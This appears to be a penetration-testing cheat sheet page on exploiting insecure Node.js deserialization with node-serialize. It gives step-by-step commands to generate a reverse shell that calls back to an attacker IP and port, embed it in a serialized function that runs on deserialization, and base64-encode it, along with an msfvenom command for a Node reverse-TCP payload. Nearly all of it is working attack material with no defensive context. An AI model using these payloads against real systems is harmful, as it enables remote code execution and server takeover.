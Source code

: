 ```yaml
---
icon: link-slash
---
```


# Deserialization

{% hint style="info" %}
### <mark style="color:orange;">`nodejs`</mark>

* <mark style="color:purple;">Install</mark> <mark style="color:orange;">**`node-serialize`**</mark><mark style="color:purple;">:</mark>

```sh
npm install node-serialize
```

***

[<mark style="color:orange;">**`nodejsshell.py`**</mark>](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) <mark style="color:purple;">**Method:**</mark>

1. <mark style="color:purple;">Create the node reverse shell:</mark>

```sh
python3 nodejsshell.py 10.10.16.8 4444
```

1. <mark style="color:purple;">Once you have a serialized reverse shell, add it to this function:</mark>

{% code overflow="wrap" %}
```javascript
var y = {
  rce: function(){ADD/THE/PAYLOAD/HERE}
}
var serialize = require('node-serialize');
var s = serialize.serialize(y)
console.log("Serialized: \n" + s.slice(0,-2) + "()" + s.slice(-2,));
```
{% endcode %}

3. <mark style="color:purple;">Now serialize convert to</mark> <mark style="color:orange;">**`base64`**</mark> <mark style="color:purple;">the exploit using</mark><mark style="color:purple;">**:**</mark>

```
nodejs exploit.js | tail -n +2 | base64 -w0
```

***

* <mark style="color:orange;">**`msfvenom`**</mark> <mark style="color:purple;">also has a module to generate payloads:</mark>

{% code overflow="wrap" %}
```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -o shell.js
```
{% endcode %}

* <mark style="color:purple;">Another great tool is</mark> [<mark style="color:orange;">**`ysoserial`**</mark>](https://github.com/frohoff/ysoserial)
{% endhint %}

